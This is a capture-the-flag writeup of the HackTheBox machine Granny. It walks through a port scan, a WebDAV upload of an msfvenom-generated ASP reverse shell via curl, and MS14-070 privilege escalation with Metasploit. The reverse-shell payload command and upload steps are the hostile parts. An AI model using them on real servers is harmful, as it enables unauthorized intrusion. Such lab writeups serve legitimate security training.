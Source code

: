 ```yaml
---
layout: single
title:  "HackTheBox: Granny - Writeup"
date:   2019-04-20 12:00:02 +0530
author: Kyle Simmons
categories: [htb]
---
```

HackTheBox: Granny was another easy machine to get into, Privilege escalation was problematic but it was a
good lesson on how to deal with broken exploits.

<h2>1.1 Enumeration</h2>
I first started by doing a port scan of Granny.
{% highlight shell %}
nmap -sC -sV -A -oA granny-scan 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.035s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Error
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unkown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.97 ms 10.10.14.1
2   42.07 ms 10.10.10.15
{% endhighlight %}
<br>
Visting the website and running dirb revealed that the website is full of inital configuration
files as it appears that the website has not been setup yet or misconfigured. However, the port scan
revealed that http webdav methods can used. A good way to test for this is with `davtest`.
<br>

<img src="/assets/images/htb/granny/davtest.png">
<br>
After looking around online i found a good sources online to use curl for method requests:
<br>
[Webdav curl examples link]

<h2>2.1 Exploitation</h2>
Firstly a shell needs to be generated to upload to the web server. Since the server is running
asp as found in enumeration, an asp shell can be generated through msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=IP_ADDRESS LPORT=PORT -f asp > rshell.asp`

Curl is used for sending the reverse shell as a .txt file. Then the MOVE method is used
to change the file extension to `.asp`.

<img src="/assets/images/htb/granny/curl-shell.png">

The shell is initialised with `'curl http://10.10.10.15/rshell.asp'` and a shell appears in the
netcat listener.

<img src="/assets/images/htb/granny/reverse-shell-done.png">

<h2>3.1 Post exploitation</h2>

A `whoami /all` reveals that i do not have a privileged shell, this will require further post enumeration to
get a privileged shell.

<img src="/assets/images/htb/granny/all-users.png">

A `sysinfo` shows that the machine is an old version of windows running `Windows server 2003 SP2`.

<img src="/assets/images/htb/granny/sysinfo.png">

After some research, several local exploits have been found at:

[Local windows exploits link]

The MS14-070 exploit appeared to be what i was looking for. The exploit was put onto the target
machine the same way as the reverse shell. When executing the exploit there was a problem with the
exploit not working properly. The process was running but it was stuck.

<img src="/assets/images/htb/granny/escalted-priv.png">

To solve this, metasploit is used to convert the shell to meterpreter and migrate the process.

Convert shell to meterpreter:
<img src="/assets/images/htb/granny/migrate-to-meterpreter.png">

Execute the exploit in metasploit:
<img src="/assets/images/htb/granny/priv-esc-exploited.png">

`session 3` has been opened and when opening it is a privileged meterpreter shell. The root.txt is found in the
desktop of the Administrator account, and success!

<img src="/assets/images/htb/granny/found-root.png">









[Local windows exploits link]: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-070
[Webdav curl examples link]: https://code.blogs.iiidefix.net/posts/webdav-with-curl/

